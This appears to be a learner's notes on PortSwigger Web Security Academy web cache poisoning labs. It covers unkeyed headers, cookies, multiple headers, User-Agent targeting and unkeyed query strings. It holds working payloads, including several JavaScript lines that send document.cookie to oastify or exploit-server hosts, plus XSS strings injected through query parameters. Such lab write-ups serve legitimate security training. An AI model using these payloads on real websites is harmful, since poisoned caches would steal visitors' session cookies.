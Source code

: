 ___

Watch for `/resources/js/tracking.js` file and `X-Cache: hit` header in response.
If you got only tracking.js without X-Cache - no cache poisoning here.

![[Pasted image 20240808103007.png]]

If you got both file and header, the first thing you should try is to inject your exploit server into **Host:** or **X-Forwarded-Host:** headers and check them in response

![[Pasted image 20240808103015.png]]

You got the poisoned cache with X-Forwarded-Host? Cool, now go to your exploit server, set the File name /resources/js/tracking.js and in Body section paste the next payload: `document.write('<img src="http://burp.oastify.com?c='+document.cookie+'" />')`. Poison web cache with your server and wait for victim's cookies.

```js
document.location='https://OASTIFY.COM/?cookies='+document.cookie;
```

# Web cache poisoning with an unkeyed header

The application supports the use of a custom HTTP header to override the Host header, and uses a cache that can be manipulated into saving responses that have been influenced by this header.  
  
Burp added the following headers to the request:  
  
X-Forwarded-Host: wvv7qb16dsbmfio5z8d5hum5bwhp5gt9uxkka8z.oastify.com  
X-Host: wvv7qb16dsbmfio5z8d5hum5bwhp5gt9uxkka8z.oastify.com  
X-Forwarded-Server: wvv7qb16dsbmfio5z8d5hum5bwhp5gt9uxkka8z.oastify.com


![[Pasted image 20240808105803.png]]

## Cookie steal

X-Forwarded-Host: exploit-0ab30085047ba7ec862a98ec018d0091.exploit-server.net

Exploit server: 
	File: /resources/js/tracking.js
	Body: document.location='http://00ytfwduj1605olk3s3bahg31u7mvb.oastify.com/?cookies='+document.cookie;

![[Pasted image 20240808112148.png]]


# Web cache poisoning with an unkeyed cookie

![[Pasted image 20240808152709.png]]

```js
test"-alert(1)-"test
```

![[Pasted image 20240808152936.png]]

# Web cache poisoning with multiple headers

![[Pasted image 20240809035334.png]]

The `Location` header shows that you are being redirected to the same URL that you requested, but using `https://`

![[Pasted image 20240809035608.png]]

> On exploit-server change the file name to match the path used by the vulnerable response: /resources/js/tracking.js. In body write `alert(document.cookie)` script.

```
GET /resources/js/tracking.js HTTP/1.1
Host: acc11fe01f16f89c80556c2b0056002e.web-security-academy.net
X-Forwarded-Host: exploit-server.web-security-academy.net/
X-Forwarded-Scheme: http
```

To check that the response was cached correctly, right-click on the request in Burp, select "Copy URL", and load this URL in Burp's browser.


# Targeted web cache poisoning using an unknown header

X-Forwarded-Host: exploit-0a56003803b033f28209c8f101b900f2.exploit-server.net  
X-Host: exploit-0a56003803b033f28209c8f101b900f2.exploit-server.net  
X-Forwarded-Server: exploit-0a56003803b033f28209c8f101b900f2.exploit-server.net

Vary: User-Agent

```html
<img src="http://7fnahm68mm5got179axb1rv59wfn3c.oastify.com/" />
```

User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Change User-Agent on the request
![[Pasted image 20240809114403.png]]

# Web cache poisoning via an unkeyed query string

utm_content=yui1kx7r00
Origin: x
```js
/?cb=1244&utm_content=vaina'/><script>alert(1)</script>
```

```js
/?utm_content='/><script>document.location="https://OASTIFY.COM?c="+document.cookie</script>
```

# Web cache poisoning via an unkeyed query parameter

```js
/?utm_content=123'/><script>alert(1)</script>
```


